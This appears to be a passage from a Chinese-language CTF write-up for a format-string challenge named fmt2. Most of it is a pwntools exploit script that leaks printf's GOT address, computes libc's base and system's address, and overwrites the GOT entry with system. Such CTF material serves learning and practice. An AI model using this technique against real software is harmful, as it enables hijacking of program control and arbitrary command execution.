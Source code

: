 <div align=center><img src="../images/2024/09/19/t_pwn16.png" alt="pwn" border="0" width="70%" height="80%"></div>

exp解释：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",46044)
io=process('./fmt2')
elf=ELF('./fmt2')
libc= elf.libc #使用当前可执行程序的libc(可能导致本地打不通，不过远程一定可以打通)
#gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf'] #printf函数的got表
print('printf_got:{}'.format(hex(printf_got)))

payload=b'%7$saaaa' + p64(printf_got) #用%s泄露got表记录的printf函数的真实地址(只能用%s)
time.sleep(0.3)
io.sendline(payload)
printf_addr = u64(io.recv(6).ljust(8,b'\x00')) # %s输出的内容要用u64()调整一下
print('printf_addr -> {}'.format(hex(printf_addr)))

printf_sym = libc.sym['printf'] # 查找libc中printf函数的偏移地址
libc_base = printf_addr - printf_sym # 求出libc基址
io.recv()
print('libc_base -> {}'.format(hex(libc_base)))

system = libc_base + libc.sym['system'] # 通过libc基址和偏移地址计算出system真实地址
print("system -> {}".format(hex(system)))

payload= fmtstr_payload(6,{printf_got:system}) #重点：改写printf函数got表，改为system函数地址
```
